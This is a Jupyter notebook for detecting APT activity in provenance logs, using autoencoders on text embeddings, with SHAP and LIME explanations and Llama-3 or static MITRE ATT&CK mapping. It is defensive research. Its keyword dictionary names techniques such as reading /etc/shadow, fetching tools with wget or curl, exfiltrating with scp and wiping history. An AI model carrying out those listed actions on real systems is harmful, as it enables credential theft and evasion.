                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for GTE_LARGE_V1_5 on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll_gte_large
    -> Baseline Done! F1: 0.0811 | PR-AUC: 0.0322
    -> Sparse Done! F1: 0.1463 | PR-AUC: 0.0325
    -> Deep SVDD Done! F1: 0.1463 | PR-AUC: 0.0576
    -> DAE Done! F1: 0.1364 | PR-AUC: 0.041
    -> VAE Done! F1: 0.0395 | PR-AUC: 0.0106
    -> Beta-VAE Done! F1: 0.1154 | PR-AUC: 0.0278
    -> GMVAE Done! F1: 0.1395 | PR-AUC: 0.0334
    -> Attention AE Done! F1: 0.0753 | PR-AUC: 0.0303
    -> LSTMAE Done! F1: 0.0684 | PR-AUC: 0.0284
    -> Robust Done! F1: 0.0656 | PR-AUC: 0.0298
    -> Contractive Done! F1: 0.1429 | PR-AUC: 0.0321

Evaluating: 5DIR - ProcessEvent_gte_large
    -> Baseline Done! F1: 0.093 | PR-AUC: 0.0296
    -> Sparse Done! F1: 0.1136 | PR-AUC: 0.0338
    -> Deep SVDD Done! F1: 0.0833 | PR-AUC: 0.0259
    -> DAE Done! F1: 0.1053 | PR-AUC: 0.0341
    -> VAE Done! F1: 0.0984 | PR-AUC: 0.0244
    -> Beta-VAE Done!

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0
    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll_gte_large


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Baseline Done! F1: 0.6694 | PR-AUC: 0.6295
    -> Sparse Done! F1: 0.0113 | PR-AUC: 0.0039
    -> Deep SVDD Done! F1: 0.3636 | PR-AUC: 0.1372
    -> DAE Done! F1: 0.233 | PR-AUC: 0.0873
    -> VAE Done! F1: 0.0101 | PR-AUC: 0.0035
    -> Beta-VAE Done! F1: 0.0104 | PR-AUC: 0.0037
    -> GMVAE Done! F1: 0.0114 | PR-AUC: 0.004
    -> Attention AE Done! F1: 0.0108 | PR-AUC: 0.004
    -> LSTMAE Done! F1: 0.6163 | PR-AUC: 0.528
    -> Robust Done! F1: 0.64 | PR-AUC: 0.5764
    -> Contractive Done! F1: 0.0108 | PR-AUC: 0.0038

Evaluating: THEIA - ProcessEvent_gte_large
    -> Baseline Done! F1: 0.7395 | PR-AUC: 0.6194
    -> Sparse Done! F1: 0.0492 | PR-AUC: 0.0153
    -> Deep SVDD Done! F1: 0.0943 | PR-AUC: 0.0434
    -> DAE Done! F1: 0.0979 | PR-AUC: 0.0389
    -> VAE Done! F1: 0.0225 | PR-AUC: 0.0068
    -> Beta-VAE Done! F1: 0.0324 | PR-AUC: 0.0087
    -> GMVAE Done! F1: 0.5207 | PR-AUC: 0.3503
    -> Attention AE Done! F1: 0.0483 | PR-AUC: 0.0139
    -> LSTMAE Done! F1: 0.6339 | 

#### XAI Integration and MITRE ATT&CK mapping

In [1]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel, BitsAndBytesConfig
import transformers.modeling_utils
import transformers.cache_utils as cache_utils
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 0. TRANSFORMERS 5.0+ SURVIVAL HOTFIXES
# ==========================================
if not hasattr(transformers.modeling_utils.PreTrainedModel, "_patched_to_applied"):
    _orig_to = transformers.modeling_utils.PreTrainedModel.to
    def _patched_to(self, *args, **kwargs):
        try:
            return _orig_to(self, *args, **kwargs)
        except ValueError as e:
            if "is not supported for `4-bit`" in str(e):
                return self 
            raise e
    transformers.modeling_utils.PreTrainedModel.to = _patched_to
    transformers.modeling_utils.PreTrainedModel._patched_to_applied = True

if hasattr(cache_utils, "DynamicCache"):
    if not hasattr(cache_utils.DynamicCache, "from_legacy_cache"):
        @classmethod
        def from_legacy_cache(cls, past_key_values=None):
            cache = cls()
            if past_key_values is not None:
                for layer_idx, (key_states, value_states) in enumerate(past_key_values):
                    cache.update(key_states, value_states, layer_idx)
            return cache
        cache_utils.DynamicCache.from_legacy_cache = from_legacy_cache

    if not hasattr(cache_utils.DynamicCache, "get_usable_length"):
        def get_usable_length(self, new_seq_length, layer_idx=0):
            return self.get_seq_length(layer_idx) if hasattr(self, "get_seq_length") else 0
        cache_utils.DynamicCache.get_usable_length = get_usable_length

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [UPDATED] GTE-Large-v1.5 configuration
EMBEDDER_NAME = "Alibaba-NLP/gte-large-en-v1.5"
INPUT_DIM = 1024  # gte-large-en-v1.5 uses 1024 dimensions

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "/bin/sh": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "sh": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "python": "T1059.006 - Command and Scripting Interpreter: Python",
    "perl": "T1059.005 - Command and Scripting Interpreter: Perl",
    "ruby": "T1059.006 - Command and Scripting Interpreter",
    "ls": "T1083 - File and Directory Discovery",
    "find": "T1083 - File and Directory Discovery",
    "locate": "T1083 - File and Directory Discovery",
    "tree": "T1083 - File and Directory Discovery",
    "whoami": "T1033 - System Owner/User Discovery",
    "id": "T1033 - System Owner/User Discovery",
    "uname": "T1082 - System Information Discovery",
    "hostname": "T1082 - System Information Discovery",
    "uptime": "T1082 - System Information Discovery",
    "ps": "T1057 - Process Discovery",
    "top": "T1057 - Process Discovery",
    "netstat": "T1049 - System Network Connections Discovery",
    "ss": "T1049 - System Network Connections Discovery",
    "nmap": "T1046 - Network Service Discovery",
    "ping": "T1018 - Remote System Discovery",
    "traceroute": "T1018 - Remote System Discovery",
    "arp": "T1046 - Network Service Discovery",
    "route": "T1046 - Network Service Discovery",
    "cp": "T1565 - Data Manipulation",
    "mv": "T1565 - Data Manipulation",
    "rm": "T1070.004 - File Deletion",
    "touch": "T1565 - Data Manipulation",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "chown": "T1222.002 - File and Directory Permissions Modification",
    "sudo": "T1548.003 - Abuse Elevation Control Mechanism: Sudo",
    "su": "T1548 - Abuse Elevation Control Mechanism",
    "/etc/passwd": "T1003 - OS Credential Dumping",
    "/etc/shadow": "T1003 - OS Credential Dumping",
    "passwd": "T1098 - Account Manipulation",
    "cat": "T1005 - Data from Local System",
    "less": "T1005 - Data from Local System",
    "head": "T1005 - Data from Local System",
    "tail": "T1005 - Data from Local System",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "/usr/bin/curl": "T1105 - Ingress Tool Transfer",
    "wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "scp": "T1048 - Exfiltration Over Alternative Protocol",
    "ftp": "T1048 - Exfiltration Over Alternative Protocol",
    "tftp": "T1048 - Exfiltration Over Alternative Protocol",
    "ssh": "T1021.004 - Remote Services: SSH",
    "rlogin": "T1021 - Remote Services",
    "telnet": "T1021 - Remote Services",
    "crontab": "T1053.003 - Scheduled Task/Job: Cron",
    "/etc/cron": "T1053.003 - Scheduled Task/Job",
    "systemctl": "T1543 - Create or Modify System Process",
    "service": "T1543 - Create or Modify System Process",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "event setuid": "T1548 - Abuse Elevation Control Mechanism",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 172.": "T1090 - Proxy / Internal Network Communication",
    "network 192.168": "T1090 - Proxy / Internal Network Communication",
    "dns query": "T1046 - Network Service Discovery",
    "history -c": "T1070 - Indicator Removal on Host",
    "clear": "T1070 - Indicator Removal on Host",
    "unset HISTFILE": "T1070 - Indicator Removal on Host",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "execut": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell",
    "apache": "T1505.003 - Server Software Component: Web Shell",
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. 
Do not include any other text or explanations."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        else:
            return f"[Error] Local API returned status {response.status_code}"
            
    except requests.exceptions.ConnectionError:
        return "[Error] Connection failed. Is Ollama running on your machine?"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} for XAI extraction...")
        
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name, trust_remote_code=True)
        self.embedder = AutoModel.from_pretrained(embedder_name, trust_remote_code=True).to(self.device)
        self.embedder.eval()
        
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 8 
        all_errors = []
        
        for i in range(0, len(text_list), batch_size):
            batch_texts = text_list[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding=True, 
                truncation=True, 
                max_length=8192, 
                return_tensors="pt"
            ).to(self.device)

            # [THE FIX]: Force token_type_ids to 0 to prevent fatal out-of-bounds CUDA crashes
            if "token_type_ids" in inputs:
                inputs["token_type_ids"] = torch.zeros_like(inputs["input_ids"])

            with torch.no_grad():
                outputs = self.embedder(**inputs)
                
                # CLS pooling is standard for gte-large-en-v1.5
                embeddings = outputs.last_hidden_state[:, 0, :] 
                reconstructed = self.ae_model(embeddings)
                errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_gte_large_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_gte_large_v1_5", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    ae_model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    print(f"✓ Loaded weights: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN SHAP
            # ==========================================
            print("\nCalculating SHAP values (This takes a moment...)")
            shap_values = shap_explainer(raw_apt_log)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                
                # Absolute value sorting so you don't lose the strongest negative drivers!
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: {score:+.4f})")
                        mapped = False
                        
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MAPPING: {mitre_technique}")
                                mapped = True
                            else:
                                print(f"    [i] LLaMA-3 failed ({mitre_technique}). Falling back to static dictionary...")

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MITRE MAPPING: {mitre_technique}")
                                    mapped = True
                                    
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5) 
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: {weight:+.4f})")
                        mapped = False
                        
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MAPPING: {mitre_technique}")
                                mapped = True
                            else:
                                print(f"    [i] LLaMA-3 failed ({mitre_technique}). Falling back to static dictionary...")

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MITRE MAPPING: {mitre_technique}")
                                    mapped = True
                                    
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded. Please verify the pickle file was loaded successfully.")

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm


Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights: saved_weights_gte_large_v1_5\theia_ProcessAll_gte_large_Baseline.pth
Loading Alibaba-NLP/gte-large-en-v1.5 for XAI extraction...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
A matching Triton is not available, some optimizations will not be enabled
Traceback (most recent call last):
  File "c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\xformers\__init__.py", line 57, in _is_triton_available
    import triton  # noqa
    ^^^^^^^^^^^^^
ModuleNotFoundError: No module named 'triton'



Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

Calculating SHAP values (This takes a moment...)

SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Top SHAP Anomaly Drivers:
 -> 'profile' (Anomaly Impact: +0.0067)
    [i] LLaMA-3 failed ([Error] Exception occurred: HTTPConnectionPool(host='localhost', port=11434): Read timed out. (read timeout=10)). Falling back to static dictionary...
    [i] No MITRE mapping found.
 -> 'rec' (Anomaly Impact: -0.0063)
    [i] LLaMA-3 failed ([Error] Exception occurred: HTTPConnectionPool(host='localhost', port=11434): Read timed out. (read timeout=10)). Falling back to static dictionary...
    [i] No MITRE mapping found.
 -> 'event' (Anomaly Impact: -0.0040)
    [i] LLaMA-3 failed ([Error] Exception occurred: HTTPConnectionPool(h

### 3. `facebook/contriever`

#### Embedding generation

In [4]:
import pandas as pd
import numpy as np
import torch
import torch.nn.functional as F
import pickle
import os
from transformers import AutoTokenizer, AutoModel

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'facebook/contriever'

# Contriever is a standard BERT-base model.
# It is very memory efficient. You can easily use 32 or 64.
BATCH_SIZE = 64

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"Using device: {device.upper()}")

print(f"Loading model: {MODEL_NAME}...")

# Load Tokenizer & Model
tokenizer = AutoTokenizer.from_pretrained(MODEL_NAME)
model = AutoModel.from_pretrained(MODEL_NAME, torch_dtype=torch.float16)

# Move to GPU
print(f"Moving model to {device}...")
model.to(device)
model.eval()

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: MEAN POOLING (Standard for Contriever)
# ==========================================
def mean_pooling(token_embeddings, attention_mask):
    """
    Standard Mean Pooling.
    Averages the token embeddings, ignoring padding tokens.
    """
    input_mask_expanded = attention_mask.unsqueeze(-1).expand(token_embeddings.size()).float()
    return torch.sum(token_embeddings * input_mask_expanded, 1) / torch.clamp(input_mask_expanded.sum(1), min=1e-9)

def get_contriever_embeddings(text_list, model, tokenizer, batch_size=32):
    all_embeddings = []
    total = len(text_list)
    
    for i in range(0, total, batch_size):
        batch_texts = text_list[i : i + batch_size]
        
        # Tokenize
        # Contriever has a standard BERT limit of 512 tokens.
        batch_dict = tokenizer(
            batch_texts, 
            max_length=512, 
            padding=True, 
            truncation=True, 
            return_tensors='pt'
        )
        
        # Move inputs to GPU
        batch_dict = {k: v.to(device) for k, v in batch_dict.items()}
        
        with torch.no_grad():
            outputs = model(**batch_dict)
            
            # [CRITICAL] Contriever uses Mean Pooling
            embeddings = mean_pooling(outputs.last_hidden_state, batch_dict['attention_mask'])
            
            # Normalize (Critical for Cosine Similarity/Anomaly Detection)
            embeddings = F.normalize(embeddings, p=2, dim=1)
            
            all_embeddings.extend(embeddings.cpu().numpy())
            
        print(f"    Processed {min(i + batch_size, total)}/{total}...", end="\r")
            
    print("") 
    return all_embeddings

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            sentences = df['sentence'].tolist()
            
            # Generate
            embeddings = get_contriever_embeddings(sentences, model, tokenizer, BATCH_SIZE)
            
            if len(embeddings) != len(df):
                print(f"  [!] Mismatch: {len(embeddings)} vs {len(df)}")
                continue

            df['embedding'] = list(embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            torch.cuda.empty_cache()

# ==========================================
# 5. SAVE DATA (CHUNKED)
# ==========================================
SAVE_DIR = "processed_embeddings_contriever"
os.makedirs(SAVE_DIR, exist_ok=True)

print(f"\nAttempting to save Contriever chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
                df = all_data[performer][context]
                filename = f"{performer}_{context}_contriever.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All Contriever data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

Using device: CUDA
Loading model: facebook/contriever...


c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\huggingface_hub\file_download.py:143: UserWarning: `huggingface_hub` cache-system uses symlinks by default to efficiently store duplicated files but your machine does not support them in C:\Users\Waleed\.cache\huggingface\hub\models--facebook--contriever. Caching files will still work but in a degraded version that might require more space on your disk. This warning can be disabled by setting the `HF_HUB_DISABLE_SYMLINKS_WARNING` environment variable. For more details, see https://huggingface.co/docs/huggingface_hub/how-to-cache#limitations.
To support symlinks on Windows, you either need to activate Developer Mode or to run Python as an administrator. In order to activate developer mode, see this article: https://docs.microsoft.com/en-us/windows/apps/get-started/enable-your-device-for-development
  warnings.warn(message)


Moving model to cuda...
Loading data from all_data_with_sentences.pkl...

GENERATING EMBEDDINGS (facebook/contriever)

--- Processing Performer: 5DIR ---
  -> ProcessEvent (11151 rows)...
    Processed 11151/11151...
     ✓ Done.
  -> ProcessExec (11077 rows)...
    Processed 11077/11077...
     ✓ Done.
  -> ProcessParent (10992 rows)...
    Processed 10992/10992...
     ✓ Done.
  -> ProcessNetflow (329 rows)...
    Processed 329/329...
     ✓ Done.
  -> ProcessAll (11151 rows)...
    Processed 11151/11151...
     ✓ Done.

--- Processing Performer: CADETS ---
  -> ProcessEvent (224624 rows)...
    Processed 224624/224624...
     ✓ Done.
  -> ProcessExec (224146 rows)...
    Processed 224146/224146...
     ✓ Done.
  -> ProcessParent (223780 rows)...
    Processed 223780/223780...
     ✓ Done.
  -> ProcessNetflow (42888 rows)...
    Processed 42888/42888...
     ✓ Done.
  -> ProcessAll (224624 rows)...
    Processed 224624/224624...
     ✓ Done.

--- Processing Performer: CLEARSCOPE ---


#### Train Test split

In [3]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# The folder where your Contriever generated embeddings are stored
SOURCE_FOLDER = "processed_embeddings_contriever" 
# The folder where you want the final train/test splits saved
BASE_DIR = "final_train_test_split_contriever"     
RANDOM_SEED = 42

def process_and_save(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # --- 1. Load the Pickle File ---
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # --- 2. Extract Embeddings (X) and Labels (y) ---
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # --- 3. Separate Benign (0) and Anomalous (1) ---
    benign_mask = (y == 0)
    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # --- 4. Shuffle Benign Data ---
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # --- 5. Perform the 80/20 Split ---
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train))
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    X_test = np.concatenate([X_test_benign, X_anom])
    y_test = np.concatenate([np.zeros(len(X_test_benign)), np.ones(len(X_anom))])
    
    print(f"  -> Split Complete. Train: {X_train.shape}, Test: {X_test.shape}")
    
    # --- 6. Organize and Save ---
    # Clean up the key name by removing Contriever suffixes
    key_name = filename.replace(".pkl", "").replace("_contriever", "") 
    
    # Try to split by underscore to get performer and context
    parts = key_name.split('_', 1) 
    if len(parts) == 2:
        performer = parts[0]
        context = parts[1]
    else:
        # Fallback if the filename doesn't have an underscore
        performer = "unknown_performer"
        context = key_name

    train_dir = os.path.join(BASE_DIR, performer, "train")
    test_dir = os.path.join(BASE_DIR, performer, "test")
    
    os.makedirs(train_dir, exist_ok=True)
    os.makedirs(test_dir, exist_ok=True)
    
    # Save TRAIN
    train_file = os.path.join(train_dir, f"{context}.pkl")
    with open(train_file, 'wb') as f:
        pickle.dump({'X': X_train, 'y': y_train}, f)
        
    # Save TEST
    test_file = os.path.join(test_dir, f"{context}.pkl")
    with open(test_file, 'wb') as f:
        pickle.dump({'X': X_test, 'y': y_test}, f)
        
    print(f"  ✓ Saved to: {train_file} and {test_file}")


# ==========================================
# 2. EXECUTION LOOP
# ==========================================
print(f"Saving organized datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 80)

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The input folder '{SOURCE_FOLDER}' does not exist.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load, split, and save process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            try:
                process_and_save(full_path)
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("ORGANIZED SAVE COMPLETE FOR CONTRIEVER!")
print("="*80)

Saving organized datasets to: d:\Waleed FYP\final_train_test_split_contriever
--------------------------------------------------------------------------------
Found 25 datasets. Starting load, split, and save process...


Processing: 5dir_ProcessAll_contriever.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 768), Test: (2238, 768)
  ✓ Saved to: final_train_test_split_contriever\5dir\train\ProcessAll.pkl and final_train_test_split_contriever\5dir\test\ProcessAll.pkl

Processing: 5dir_ProcessEvent_contriever.pkl...
